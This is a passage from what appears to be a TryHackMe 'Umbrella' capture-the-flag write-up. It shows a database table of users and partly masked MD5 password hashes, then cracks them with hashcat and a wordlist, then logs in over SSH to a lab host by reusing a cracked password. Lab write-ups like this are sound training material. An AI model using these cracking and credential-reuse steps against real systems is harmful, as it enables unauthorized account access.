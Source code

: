 ```bash
+-------+-------------+------+-----+---------+-------+
3 rows in set (0.622 sec)                                                                                             
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7xxxxxxxxxxxxxxx898e549b63 |   360 |
| chris-r  | 0d107d0xxxxxxxxxxxxxxx5c71e9e9b7 |   420 |
| jill-v   | d5c0607xxxxxxxxxxxxxxx2a83992ac8 |   564 |
| barry-b  | 4a04890xxxxxxxxxxxxxxxace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.433 sec)                                          

MySQL [timetracking]>  
```

We can identify a table containing usernames and password hashes. These hashes look like MD5 hash so let's copy them into a file and crack them.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Umbrella/Misc File]
└─$ hashcat -m 0 -a 0 hashes.txt .rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
d5c0607xxxxxxxxxxxxxxx2a83992ac8:<REDACTED>                
0d107d0xxxxxxxxxxxxxxx5c71e9e9b7:<REDACTED>                  
2ac9cb7xxxxxxxxxxxxxxx898e549b63:<REDACTED>                
4a04890xxxxxxxxxxxxxxxace5d7e994:<REDACTED>                 
                                                          
<SNIP>
Candidates.#1....: total90 -> cocoliso
Hardware.Mon.#1..: Temp: 33c Util: 19%

Started: Fri Oct 25 16:14:17 2024
Stopped: Fri Oct 25 16:14:20 2024
```

We successfully cracked the four hashes. Now that we have a list of usernames and passwords, we can attempt to log in using SSH.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Umbrella]
└─$ ssh claire-r@10.10.143.85     
The authenticity of host '10.10.143.85 (10.10.143.85)' can't be established.
<SNIP>
claire-r@ctf:~$ ls
timeTracker-src  user.txt
```

We can see that the user claire-r can log into the target using the same password. We can use this access to read the user flag.

## Post Exploitation
